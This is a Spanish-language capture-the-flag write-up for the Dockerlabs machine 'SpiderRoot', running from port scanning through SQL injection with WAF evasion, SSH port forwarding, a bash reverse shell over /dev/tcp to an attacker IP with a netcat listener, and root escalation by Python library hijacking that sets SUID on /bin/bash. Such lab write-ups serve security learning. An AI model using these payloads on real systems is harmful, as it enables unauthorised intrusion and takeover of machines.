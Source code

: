 # 🖥️ Write-Up: [SpiderRoot](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: SpiderRoot
    - Plataforma: Dockerlabs
    - Dificultad: Medio
    - Creador: Grooti
    - OS: Linux
---

## 🔍 Enumeración

La máquina SpiderRoot posee la IP 172.17.0.2.

## Descubrimiento de Puertos

Realizamos un reconocimiento de todos los puertos de la máquina y nos quedamos únicamente con aquellos que están abiertos. Para ello, vamos a recurrir a la herramienta `nmap`.

![allPorts](screenshots/allPorts.png)

La máquina tiene abiertos los puertos `22` y `80`, por lo tanto, vamos a proceder a realizar un escaneo de los servicios y versiones de ellos.

![target](screenshots/target.png)

Como no disponemos de credenciales y esa versión de OpenSSH del puerto 22 no es vulnerable, vamos a analizar el puerto 80.

#### Puerto 80

Accemos a él a través del navegador y nos encontramos la siguiente página:

![home](screenshots/home.png)

Revisando las páginas de su menú de navegación, vemos:

    - heroes: información de posibles usuarios.
    - multiverso: panel de login.
    - contacto: información de contacto y una pista.

La pista del apartado de contacto:

"Cada realidad tiene secretos ocultos. Explora con cuidado y recuerda: un gran poder conlleva una gran responsabilidad.  
Tip: Algunos archivos del sistema pueden revelar más sobre el multiverso..."

Esto nos sugiere revisar el código fuente de los tres subdirectorios. Tras realizarlo, en el multiverso encontramos lo siguiente:

![hint](screenshots/hint.png)

Nos indica que para evadir el Web Application Firewall (WAF) debemos de usar AND, OR o comentarios de manera codificada.

## 🔥Explotación

Antes de intentar evadir el WAF, vamos a probar el panel de login con las típicas credenciales de usuario 'admin' y contraseña 'admin'.

![invalid_credentials](screenshots/invalid_credentials.png)

Observamos que las credenciales son incorrectas, por lo que intentamos realizar una simple SQl injection, introduciendo `'or 1=1-- -` en el campo del usuario y una contraseña cualquiera, para ver el comportamiento de la página.


![waf](screenshots/waf.png)

Como vemos, el mensaje es direntente al de credenciales incorrectas, esto nos indica que hemos conseguido entrar en el panel pero no hemos evadido el WAF. Así que ahora toca evadirlo.

Tras varias pruebas, conseguimos pasar el WAF introduciendo en el usuario `or 1=1 /` y una contraseña cualquiera. Y obtenemos:

![database](screenshots/database.png)

## 🚪Acceso a la máquina

Ahora que tenemos usuarios y credenciales vamos a utilizarlos para conectarnos por ssh a la máquina.

![peter_ssh](screenshots/peter_ssh.png)

Nos conectamos como peter y en su directorio encontramos una nota:
"Hay un enemigo más internamente en esta máquina... Hay que derrotarlo"

Revisamos permisos SUID, sudoers, capabilities, tareas que se ejecuten periódicamante y no encontramos nada en ellas. Pero, encontramos un archivo intersesante en /opt, llamado spidy.py.

![script](screenshots/script.png)


## 🧗Escalada de Privilegios

### www-data

Recordando la nota del directiro de peter, probamos a mirar los puertos que están abiertos localmente.
![internal_port](screenshots/internal_port.png)

Encontramos que de forma local hay algún servicio ejecutándose en el puerto `8080`, como disponemos de credenciales para conectarnos por ssh, vamos utilizar ssh para aplicar port forwarding y llevar ese servicio del puerto 8080 a nuestra máquina.

```bash
ssh -L 8080:127.0.0.1:8080 peter@172.17.0.2
```

Tras introducir las credenciales de peter, el servicio del puerto 8080 que corre de forma local en la máquina pasará a nuestra localhost en el puerto 8080. Así que si accedemos a nuestro localhost por ese puerto utilizando el navegador.

![internal_8080](screenshots/internal_8080.png)

Vemos un portal en el que al parecer podemos ejecutar comandos. Probamos a introducir un `whoami` y obtenemos como salida `www-data`, por lo tanto vamos a introducir una reverse shell.
```bash
bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

Antes de ejecutarla, nos ponemos en escucha con `netcat` en el puerto 443.
```bash
nc -nlvp 443
```

La ejecutamos y recibimos la conexión.

![nc](screenshots/nc.png)

Ahora procedemos a realizar el tratamiento de la TTY.

![tty](screenshots/tty.png)

![tty2](screenshots/tty2.png)

### Root

Ahora somos el usuario `www-data`, así que vamos a comprobar sus permisos sudoers con `sudo -l`.

Y observamos que puede ejecutar como cualquier usuario sin proporcionar contraseña el archivo que habíamos encontrado en `/opt`.

```bash
(ALL) NOPASSWD: /usr/bin/python3 /opt/spidy.py
```

Como hemos visto anteriormente, ese script utilizaba las librerías de os, sys, json y math. Además, disponemos de permisos de escritura en el directorio `/opt`. Así que solo nos queda comprobar el path de python para ver si podemos ejecutar un Python Library Hijacking.

![path_python](screenshots/path_python.png)

Vemos que la primera ruta en la que python busca las librerías es el mismo directorio en el que se situa el archivo, por lo tanto, podemos ejecutar un Python Library Hijacking. 

Para ello, vamos a crear en el directirio `/opt` un archivo llamado `json.py` con el siguiente código en su interior, para darle a la bash permisos SUID.

```python
import os; os.system("chmod u+s /bin/bash")
```
Le damos permisos de ejecución al archivo creado.
```bash
chmod +x json.py
```

De esta forma, al ejecutar spidy.py como root nos dará permisos SUID a la bash.

```bash
sudo /usr/bin/python3 /opt/spidy.py
```

Nos da un error referente al json.py, pero no nos afecta. Ahora comprobamos la bash y efectivamente, ha funcionado.

![suid_bash](screenshots/suid_bash.png)

Por último, nos lanzamos una bash con privilegios.
```bash
/bin/bash -p
```

Y listo, somos root.

![root](screenshots/root.png)